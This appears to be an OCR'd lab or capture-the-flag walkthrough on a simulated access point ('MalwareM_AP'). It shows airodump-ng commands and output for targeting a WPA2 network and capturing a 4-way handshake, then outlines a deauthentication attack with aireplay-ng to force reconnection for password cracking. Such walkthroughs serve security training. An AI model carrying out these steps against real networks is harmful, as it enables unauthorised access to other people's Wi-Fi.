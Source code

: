 ```shell
glitch@wifi:~$ sudo airodump-ng wlan2
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28        2        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP                             
```

The target is on channel 6 based on this output.
To capture the handshake we will do the following.

First `^c` to cancel airodump-ng.
`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`
We specified channel and mac address of the ap.
This captured data will be saved to files that start as 'wlan2'.
With this setup we are hopefully going to capture the *4-way handshake*.

In this scenario a client is already connected.
The output will change once we receive the info about the connected client.
If a client is indeed connected we can perform a *deauth attack*.
It is important to *keep this command running* until we are done with the attack.

```shell
glitch@wifi:~$ sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
```

It should take between **1 to 5 minutes** before receiving the client information. In our case, it will show like this:

```shell
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140
```

Note that the `STATION` section shows the device's BSSID (MAC) of `02:00:00:00:01:00` that is connected to the access point. This is the connection that we will be attacking. Now we are ready for the next step.

On the second terminal, we will perform deauth attack.

1. **Deauthentication packets**:
	- **aireplay-ng** sends deauth packets to a client or all clients connected to an ap (broadcast attack).
2. **Forcing a reconnection**: 
	- When disconnected client will automatically try to reconnect to the network, this is when the 4-way handshake happens.
3. **Capturing the handshake**:
	- **airodump-ng** comes into play, it will capture the handshake, providing the data to attempt wpa/wpa2 cracking.
